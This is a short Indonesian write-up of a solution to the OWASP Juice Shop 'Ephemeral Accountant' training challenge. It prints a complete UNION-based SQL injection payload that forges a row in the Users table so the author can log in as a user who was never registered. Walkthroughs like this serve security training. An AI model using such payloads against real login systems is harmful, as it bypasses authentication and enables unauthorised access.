


# Ephemeral Accountant OWASP Juice Shop

Link resource: https://demo.owasp-juice.shop/#/score-board?categories=Injection&showDisabledChallenges=false

Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user.

## Solusi

Untuk menyelesaikan challenge ini kita perlu login ke akun yang sebenarnya tidak ada, yaitu acc0unt4nt@juice-sh.op

Caranya, kita manfaatkan endpoint Search yang sebelumnya kita gunakan untuk menemukan database schema. Dari schema tersebut, kita bisa melihat query pembuatan tabel Users, dan dari situ kita bisa tahu struktur kolom yang dipakai untuk membuat user.



Sekarang kita akan bikin query sendiri pakai UNION untuk membuat akun ini.
Dengan tahu struktur kolom dari tabel Users (id, email, password, role, dsb.) lewat database schema tadi, kita bisa menyusun UNION SELECT yang menginject data user baru ke hasil query. Tujuannya supaya akun acc0unt4nt@juice-sh.op muncul seakan-akan valid di sistem.

```sql
' UNION SELECT 45 as id, 'acnt' as username, 'acc0unt4nt@juice-sh.op' as email, '1234' as password, 'customer' as role, '' as deluxeToken, '1.1.1.1' as lastLoginIp, 'default.svg' as profileImage, '' as totpSecret, 1 as isActive, '2024-08-30 14:32:12.456' as createdAt, '2025-09-04 14:32:12.456' as updatedAt, null as deletedAt--' AND password = '098f6bcd4621d373cade4e832627b4f6' AND deletedAt IS NULL;
```


